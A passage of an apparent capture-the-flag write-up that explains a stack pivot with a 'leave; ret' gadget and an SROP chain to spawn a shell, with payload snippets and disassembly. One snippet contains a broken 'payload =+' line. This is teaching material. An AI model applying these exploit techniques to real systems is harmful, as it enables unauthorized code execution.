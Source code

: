 ### Exploitation path:
- Pivot the stack to the original buffer so that we can have control over it's content.
- Using the right gadget, call the READ syscall in order to read more data into the buffer (SIGROP data).
- Set up the registers to call SIGROP and get a shell


## Stage 3: Stack pivoting

As, mentioned before, stack pivoting is used to get more controlled space for our ROP, and the buffer we have control over is the perfect place to pivot into.

Basically, pivoting is changing the value of `RSP`, so that the `POP` and `PUSH` instructions are done in the buffer we pivot to; we can do that using one of these gadgets:
```leave; ret;``` , ```mov rsp, [anything]```, ```pop rsp``` (rare).

But the best, and the far most common one, is ```leave; ret;```, and that's what i used for this challenge.

```
0x0000000000000367 <+51>:	leave
0x0000000000000368 <+52>:	ret
```
Here's the exploit's snippet that does that:
```
x = 13
payload = p64(fake_rbp_1+32) + p64(set_read) + p64(fake_rbp_1+x) + b"\x40\x01\x00\x00" + b"\x00\x00\x00\x00" # ignore this part for now
payload =+ p64(fake_rbp_1) + p64(leave_ret) # Pivoting into `fake_rbp_1` with `leave_ret`
print(f"[+] Send payload of length {hex(len(payload))}")

# `fake_rbp_1` is just the calculated buffer address, nothing fancy 
```

## Stage 4: Setup the stack

We're now inside the buffer, and thus we can ROP as much as we like.

Let's rewind and analyze the first part of payload we saw earlier:
```x = 13
payload = p64(fake_rbp_1+32) + p64(set_read) + p64(fake_rbp_1+x) + b"\x40\x01\x00\x00" + b"\x00\x00\x00\x00"
```
Just after the stack pivot, i.e ```mov rsp, rbp```, there's two more instructions:

```
pop rbp
ret
```

So, the new `RBP = &buffer + 32`, and it returns to `set_read` which is:
```
   0x0000000000000377 <+14>:	mov    edi,DWORD PTR [rbp-0x4]
   0x000000000000037a <+17>:	mov    rsi,QWORD PTR [rbp-0x10]
   0x000000000000037e <+21>:	mov    edx,DWORD PTR [rbp-0x8]
   0x0000000000000381 <+24>:	mov    eax,0x0
   0x0000000000000386 <+29>:	syscall
   0x0000000000000388 <+31>:	nop
   0x0000000000000389 <+32>:	pop    rbp
   0x000000000000038a <+33>:	ret
```
